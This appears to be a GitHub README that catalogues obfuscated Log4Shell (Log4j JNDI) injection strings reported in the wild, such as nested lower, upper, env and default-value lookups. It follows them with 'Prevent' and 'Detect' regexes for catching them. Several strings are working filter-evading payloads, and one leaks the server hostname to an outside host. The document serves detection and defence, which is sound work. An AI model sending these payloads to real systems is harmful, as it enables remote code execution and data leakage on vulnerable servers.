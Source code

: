 ## Log4j2-Obfucation

Current Log4Shell obfuscation techniques observed or reported (Also works on rmi, dns, ldaps)

# Obfuscation

```

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://test/a}

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://${upper:t}est/a} 

${${env:env_name:-j}${env:env_name:-n}${env:env_name:-d}${env:env_name:-i}${env:env_name:-:}${env:env_name:-l}${env:env_name:-d}${env:env_name:-a}${env:env_name:-p}${env:env_name:-:}//test/a} (Also works on rmi, dns, ldaps)

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://test/a}

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://${hostname}.test/a}

${jndi:ldap://{$date:YYYYMMddHHmmss}.test/a}

```

# Regex

Pattern match to capture all of above

Prevent
```

.*\$\{.{0,25}[jJ].{0,25}[nN].{0,25}[dD].{0,25}[iI].{0,150}:.{0,5}\/.*\}

```
Detect
```

.*\$\{(\$\{.+[jJ]|[jJ])\}*(\$\{.+[nN]|[nN])\}*(\$\{.+[dD]|[dD])\}*(\$\{.+[iI]|[iI])\}*(\$\{.+\:|\:).*\}

```
